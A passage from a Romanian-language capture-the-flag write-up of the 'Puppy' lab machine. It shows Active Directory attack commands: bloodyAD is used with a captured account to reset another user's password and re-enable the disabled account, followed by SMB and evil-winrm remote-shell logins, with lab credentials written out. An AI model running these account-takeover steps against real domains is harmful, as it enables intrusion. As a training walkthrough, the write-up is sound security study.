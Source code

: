 *bloodyAD --host 10.10.11.70 -d puppy.htb -u 'ant.edwards' -p 'Antman2025!' set password 'adam.silver' 'NewPass123'* 

![Fig. 20](/writeups/puppy/image%2019.png)

Fig. 20

Incercand sa ma conectez la evil-winrm observam ca nu avem autorizatie.

*evil-winrm -i 10.10.11.70 -u 'PUPPY.HTB\adam.silver' -p 'NewPass123'* 

![Fig. 21](/writeups/puppy/image%2020.png)

Fig. 21

Am incercat pe smbclient si primim informatia ca contul nostru este disabled. O sa incercam sa il activam 

*impacket-smbclient 'PUPPY.HTB/adam.silver:NewPass123'@10.10.11.70 -dc-ip 10.10.11.70* 

![Fig. 22](/writeups/puppy/image%2021.png)

Fig. 22

*bloodyAD --host 10.10.11.70 -d PUPPY.HTB -u 'ant.edwards' -p 'Antman2025!' remove uac 'adam.silver' -f ACCOUNTDISABLE*

![Fig. 23](/writeups/puppy/image%2022.png)

Fig. 23

Dupa resetarea parolei si activarea contului am reusit sa creeam o sesiune la smb. 

*impacket-smbclient 'PUPPY.HTB/adam.silver:NewPass123'@10.10.11.70 -dc-ip 10.10.11.70*

![Fig. 24](/writeups/puppy/image%2023.png)

Fig. 24

Reincercand sesiunea de evil-winrm am reusit sa ma conectez la adam.silver

*evil-winrm -i 10.10.11.70 -u 'PUPPY.HTB\adam.silver' -p 'NewPass123’*

![Fig. 25](/writeups/puppy/image%2024.png)

Fig. 25

Trebuie neaparat sa fie si timpul updatat astfel incat sa fie cu acelasi de pe domeniu. 

*ntpdate-s 10.10.11.70*

![Fig. 26](/writeups/puppy/image%2025.png)

Fig. 26

![Fig. 27](/writeups/puppy/image%2026.png)

Fig. 27
